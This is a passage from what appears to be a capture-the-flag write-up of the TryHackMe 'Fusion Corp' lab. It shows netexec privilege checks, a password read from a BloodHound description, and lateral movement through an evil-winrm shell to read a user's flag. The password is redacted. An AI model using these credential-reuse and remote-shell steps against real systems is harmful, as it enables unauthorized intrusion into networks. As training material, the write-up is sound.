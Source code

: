 I got the password so lets see what privileges does this user have with <mark style="background: #FF5582A6;">netexec</mark> Tool.

![Image](Pasted%20image%2020240320100146.png)
_Got privileges of SMB,winrm,RDP services_

### WINRM Session ⏬ 

Lets have <span style="color:#fd77f8">lparker</span> user winrm session now ⏬

![Image](Pasted%20image%2020240320100528.png)
_FLAG.txt file from lparker user_

with Bloodhound I checked user <span style="color:#fd77f8">jmurphy</span> account and I got this information from its description 🔽

![Image](Pasted%20image%2020240320112049.png)
_BloodHound Description_

I got the password of jmurphy user so lets have it's winrm session now as we are Lateral moving so 🔻 
```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Fusion_corp]
└─$ evil-winrm -i 10.10.111.223 -u jmurphy -p '<PASSWORD>'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jmurphy\Documents> cd ..
*Evil-WinRM* PS C:\Users\jmurphy> whoami
fusion\jmurphy
*Evil-WinRM* PS C:\Users\jmurphy> tree /f /a
Folder PATH listing
Volume serial number is 82D1-EB4D
C:.
+---Desktop
|       flag.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\jmurphy> cat Desktop\flag.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG_FLAG}
*Evil-WinRM* PS C:\Users\jmurphy> 
```
{: .nolineno}
{: .nolineno}
